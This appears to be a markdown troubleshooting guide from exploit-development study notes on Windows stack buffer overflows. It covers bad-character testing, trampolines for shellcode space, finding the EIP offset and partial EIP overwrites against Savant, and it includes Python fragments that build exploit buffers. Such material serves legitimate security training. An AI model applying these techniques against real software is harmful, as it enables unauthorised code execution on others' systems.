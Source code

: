 # Sometimes ...

## Table of Contents

* 1.0 [Not enough space to test bad characters.](#NES-BC)
* 2.0 [Not enough spcae to test shellcode.](#NES-Shellcode)
* 3.0 [Testing Bad Characters doesn't cause a crash.](#NoCrashBC)
* 4.0 [Unique String Cause Another Crash.](#UniqueStringAnotherCrash)
* 5.0 [Partial EIP Overwrite.](#PartialEIPOverwrite)
  * 5.1 [Partial EIP Overwrite - JMP ESP Alternative.](#PEO-Alternative)

### 1. Not enough space to test bad characters.<a name="NES-BC"></a>

Sometime, if you didn't have enough size to test all the bad characters in one shot.
 
To overcome this, you can comment all the badchars line, and send the maximum badchars size possible at a time.


### 2. Not enough space for the shellcode.<a name="NES-Shellcode"></a>

If you cant find enought space for the shellcode, once you get the JMP ESP instruction, check if any others registers redirect to our buffer (it can be the "A" buffer too).
 
Then if you find it (example ECX), find the JMP ECX opcodes.
 
```bash
┌──(v0lk3n㉿Laptop)-[~/StackOverflow-Basic]
└─$ msf-nasm_shell
nasm > JMP ECX
00000000  FFE1              jmp ecx
```

Complete the address with NOPs instructions to redirect the flow to it.
 
```python
...
size = 2600
shell = <shellcode here>

buffer = b"\x90" * (size - len(shell))
eip = b"\xcf\x60\x40\x12" # 124060cf JMP ESP 
ecx = b"\xff\xe1\x90\x90" # 0xffe1 JMP ECX NOP NOP
nops = b"\x90" * 10
...
```

### 3. Testing Bad Characters doesn't cause a crash.<a name="NoCrashBC"></a>

Sometimes, sending our bunch of bad characters to test them doesn't cause a crash. This is most likely the result of a bad character.

```python
...
    badchars = (
        #b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c"
        #b"\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19"
        #b"\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26"
        #b"\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33"
        #b"\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
        #b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d"
        #b"\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a"
        #b"\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67"
        #b"\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74"
        #b"\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81"
        b"\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e"
        b"\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b"
        b"\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8"
        b"\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5"
        b"\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2"
        b"\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
        b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc"
        b"\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9"
        b"\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6"
        b"\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
        )
...
```

To identify it, we simply comment the first half of the badchars variables. If we succesfully overwrite the isntruction pointer, this mean that the bad chars isn't in the last half of the bad chars.

Repeat this process, since you found all bad chars including the one that prevent the vulnerable application from crashing.

### 4. Unique String Cause Another Crash.<a name="UniqueStringAnotherCrash"></a>

Sometimes, running our PoC with the Unique Pattern (or other similar situation), cause a different crah.

When it happen, how to find the exact offset of EIP? To overcome this we can split our buffer in two parts.

```python
...
inputBuffer = b"\x41" * 130  
inputBuffer+= b"\x42" * 130
...
```

If the EIP is overwritten by "42424242" that mean the exact offset is present in the second half of our buffer. Split the 42 in two part and repeat the process since finding the exact offset.

### 5. Partial EIP Overwrite.<a name="PartialEIPOverwrite"></a>

Sometimes, we can see that our buffer is null-terminated.

```bash
0:003> dds @esp L4  
01fcea2c 00434343 Savant+0x34343 ## 00434343  
01fcea30 01fcea84  
01fcea34 0041703c Savant+0x1703c  
01fcea38 003d5750
```

When it happen, we can use the Partial EIP overwrite technique.

When our executable is mapped in an address range that start with a null byte, we can use the string null terminator as part of our EIP overwrite to redirect the execution flow to the assembly instruction we choose within the module.

```python
...
inputBuffer = b"\x41" * size  
inputBuffer+= b"\x42\x42\x42"
...
```

Run the PoC and our partial EIP overwrite should be a success.

Now we need to decide where we want to redirect the execution flow to.

#### 5.1 Partial EIP Overwrite - JMP ESP Alternative.<a name="PEO-Alternative"></a>

When we use Partial EIP overwrite technique, we cannot store any data past the return address, because the added null byte will terminate the string. As the ESP register will not point ot our buffer we can't use instructions such as JMP ESP.
